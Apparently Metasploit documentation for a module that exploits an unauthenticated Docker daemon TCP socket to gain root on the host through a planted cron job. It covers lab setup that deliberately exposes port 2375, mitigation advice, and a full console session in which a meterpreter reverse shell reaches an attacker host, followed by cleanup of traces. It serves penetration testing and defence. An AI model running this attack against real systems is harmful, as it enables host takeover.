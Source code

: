 ## Vulnerable Application
Utilizing Docker via unprotected tcp socket (2375/tcp, maybe 2376/tcp
with tls but without tls-auth), an attacker can create a Docker
container with the '/' path mounted with read/write permissions on the
host server that is running the Docker container. As the Docker 
container executes command as uid 0 it is honored by the host operating
system allowing the attacker to edit/create files owned by root. This
exploit abuses this to creates a cron job in the '/etc/cron.d/' path of
the host server.

The Docker image should exist on the target system or be a valid image
from hub.docker.com.

## Docker Engine
By default, Docker runs via a non-networked unix socket. It can also
optionally communicate using a tcp socket.

> Warning: Changing the default docker daemon binding to a TCP port or
Unix docker user group will increase your security risks by allowing
non-root users to gain root access on the host. Make sure you control
access to docker. If you are binding to a TCP port, anyone with access
to that port has full Docker access; so it is not advisable on an open
network. -- [from docs.docker.com][1]

This module was tested with Debian 9 and CentOS 7 as the host operating
system and with Docker CE 17.06.0-ce and Docker Engine 1.13.1.

### Install Debian 9
First [install Debian 9][2] with default task selection. This includes
the "*standard system utilities*".

### Install Docker
Then install a supported version of [Docker on Debian system][3].

```bash
# TL;DR
apt-get remove docker docker-engine
apt-get install apt-transport-https ca-certificates curl gnupg2 software-properties-common
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
# Verify that the key ID is 9DC8 5822 9FC7 DD38 854A E2D8 8D81 803C 0EBF CD88.
add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce
docker run hello-world
```

### Activate unprotected tcp socket
Once Docker is installed, customize the Docker daemon options and add
the tcp socket `-H tcp://0.0.0.0:2375` option. On Debian override the
settings from `/lib/systemd/system/docker.service` with a new file
`/etc/systemd/system/docker.service`.

Further information: [docker systemd][4] and [docker daemon options][5]. 

```bash
# TL;DR
echo "[Service]
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375" | tee /etc/systemd/system/docker.service
systemctl daemon-reload
systemctl restart docker
curl http://127.0.0.1:2375/_ping ; echo
OK
```

### Mitigation

[Disable][5] or [protect][6] the Docker tcp socket.

[User namespaces][7] did **not** protect against this.

# Exploitation
This module is designed for the attacker to leverage, creation of a
Docker container with out authentication through the Docker tcp socket
to gain root access to the hosting server of the Docker container.

## Options
- DOCKERIMAGE is the locally or from hub.docker.com available image you are wanting to have Docker to deploy for this exploit.
- CONTAINER_ID if you want to have a human readable name for your container, else it will be randomly generated

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/docker_daemon_tcp
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a Docker container and it successfully runs
- [ ] After a minute a session should be opened from the Docker server

## Scenarios
```
msf > use exploit/linux/http/docker_daemon_tcp
msf exploit(docker_daemon_tcp) > set RHOST 192.168.66.23
RHOST => 192.168.66.23
msf exploit(docker_daemon_tcp) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(docker_daemon_tcp) > set LHOST 192.168.66.10
LHOST => 192.168.66.10
msf exploit(docker_daemon_tcp) > set VERBOSE true
VERBOSE => true
msf exploit(docker_daemon_tcp) > check
[+] 192.168.66.23:2375 The target is vulnerable.
msf exploit(docker_daemon_tcp) > run

[*] Started reverse TCP handler on 192.168.66.10:4444
[*] Check if images exist on the target host
[*] Image is not available on the target host
[*] Trying to pulling image from docker registry, this may take a while
[*] Setting container json request variables
[*] Creating the docker container command
[*] The docker container is created, waiting for deploy
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Waiting until the docker container stopped
[*] The docker container has been stopped, now trying to remove it
[*] Sending stage (2878936 bytes) to 192.168.66.23
[*] Meterpreter session 1 opened (192.168.66.10:4444 -> 192.168.66.23:35050) at 2017-07-25 14:03:02 +0200
[+] Deleted /etc/cron.d/lVoepNpy
[+] Deleted /tmp/poasDIuZ


meterpreter > sysinfo
Computer     : rancher
OS           : Debian 9.1 (Linux 4.9.0-3-amd64)
Architecture : x64
Meterpreter  : x64/linux
meterpreter >
```

[1]:https://docs.docker.com/engine/reference/commandline/dockerd/#bind-docker-to-another-hostport-or-a-unix-socket
[2]:https://www.debian.org/releases/stretch/amd64/index.html.en
[3]:https://docs.docker.com/engine/installation/linux/docker-ce/debian/
[4]:https://docs.docker.com/engine/admin/systemd/
[5]:https://docs.docker.com/engine/reference/commandline/dockerd/#options
[6]:https://docs.docker.com/engine/security/https/
[7]:https://docs.docker.com/engine/security/userns-remap/#disable-namespace-remapping-for-a-container

